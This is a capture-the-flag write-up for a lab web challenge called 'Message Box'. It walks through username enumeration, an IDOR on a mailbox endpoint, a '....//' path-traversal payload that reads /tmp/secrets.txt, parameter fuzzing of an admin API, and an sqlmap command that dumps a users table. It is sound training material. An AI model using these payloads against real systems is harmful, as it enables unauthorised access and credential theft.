 # Message Box

Login page responds with different result if username is valid or username does not exists. Fuzzing with very basic usernames and passwords wordlists we soon find a bunch of username

* bob
* gill
* thomas
* admin

Once we find a valid credential we will be able to login and get the first flag.

Next we start looking at messages and we can see that

```
GET /mailbox/2/ 
```

gives us an error message, but we can still read message n. 2 by using an IDOR vulnerability here

```
GET /mailbox/2/reply/
```

We alo get a strange message

```
Hi, I've got that API Key you needed for the endpoint at /messagebox-admin-api <a href="/get_attachment?file=s
ecrets.txt&check=f4629b1e2325d367099513471d3601e0">secrets.txt</a>. I've also stored it in /tmp/secrets.txt. D
on't share it with anyone!
```

We need to find a way to access the secret message. We start noticing that the given `check` value is the md5 of `secrets.txt`.

After some struggling we deduce a valid LFI that gives us access to secrets.txt file thus revealing the needed token. Payload will use a bunch of `....//`:

```
file=....//....//....//....//....//....//....//....//tmp/secrets.txt&check=***
```

Now for last flag there is a tricky part. First of all we can fuzz /messagebox-admin-api and find a couple of endpoints:

```
deleted                 [Status: 403, Size: 32, Words: 3, Lines: 1, Duration: 40ms]
messages                [Status: 200, Size: 663, Words: 47, Lines: 1, Duration: 41ms]
```

`messages` only shows us something we already know. But accessing deleted we get an error about deprecated method. Here the trick is fuzzing for parameters in order to discover this:

```
GET /messagebox-admin-api/deleted?version=1.0 HTTP/1.1

{"message":"Here you can view messages that have been deleted"}
```

We can now access some messages but we cannot access the fourth message:

```
GET /messagebox-admin-api/deleted/4?version=1.0 HTTP/1.1
Host: u8e5yi0w.eu1.ctfio.com
X-Token: ********

{"error":"You do not have the correct permissions to view this message"}
```

There is no way to access it here but the numeric parameter in URL is vulnerable to SQLi. Easiest way to approach this is saving a request to vulnerable endpoint as `req.txt`, putting as `*` at the injection point in URL and then use this command:

```bash
sqlmap -r req.txt  --batch --force-ssl --ignore-code 401
```

We can extract the users table and find a valid credential for user admin that will give us last flag.
